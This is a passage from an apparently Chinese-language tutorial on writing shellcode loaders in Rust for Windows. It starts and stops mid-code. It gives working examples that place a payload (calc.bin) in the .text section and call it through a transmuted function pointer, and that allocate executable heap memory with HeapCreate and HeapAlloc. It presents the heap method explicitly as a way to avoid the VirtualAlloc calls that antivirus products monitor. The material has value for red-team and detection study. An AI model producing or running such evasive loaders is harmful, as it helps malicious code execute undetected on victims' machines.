 ```bash
                0,
                Some(transmute(ptr)),
                std::ptr::null_mut(),
                0,
                &mut threadid,
            );

            WaitForSingleObject(threadhandle, 0xFFFFFFFF);
        } else {
            println!("执行失败：{}", GetLastError());
        }
    }
}
```

### 函数指针

`link_section`是 Rust 的一个[attribute](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)，它用来将特定的函数或者变量放到程序的指定的区块中，`.text`区块通常用来存储程序的执行代码，它会被加载到内存中并由处理器执行。  
然后通过`std::mem::transmute`将 `*const u8` 类型的指针转换为函数类型 `fn()`，最后执行 shellcode。

```bash
fn main() {
    const BUFFER_BYTES:&[u8] = include_bytes!("..\\calc.bin");
    const BUFFER_SIZE:usize = BUFFER_BYTES.len();

    #[link_section = ".text"]
    static BUFFER:[u8;BUFFER_SIZE] = *include_bytes!("..\\calc.bin");
    unsafe{
        let exec = std::mem::transmute::<*const u8,fn()>(&BUFFER as *const u8);
        exec();
    }
}
```

### 通过 heapapi 申请内存

由于`VirtualAlloc`是各大杀软的重点监控对象，所以通常需要使用其他的 API 来替代，下面介绍的是另一个常见的内存申请方式，即通过`HeapCreate/HeapAlloc`的组合来创建内存空间。  
参考：[HeapCreate function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapcreate), [HeapAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc)

该方式同样需要先引入依赖，在`Cargo.toml`文件中添加如下依赖：

```bash
[dependencies]
winapi = {version="0.3.9",features=["winuser","heapapi","errhandlingapi"]}
```

该方法通过`HeapCreate`创建`HEAP_CREATE_ENABLE_EXECUTE`权限的内存堆，然后通过`HeapAlloc`来从堆中分配内存空间，最后通过函数指针的方式执行 shellcode。

```bash
use std::mem::transmute;
use winapi::ctypes::c_void;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::heapapi::HeapAlloc;
use winapi::um::heapapi::HeapCreate;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let heap = HeapCreate(0x40000, 0, 0);
        let ptr = HeapAlloc(heap, 8, buffer.len());

```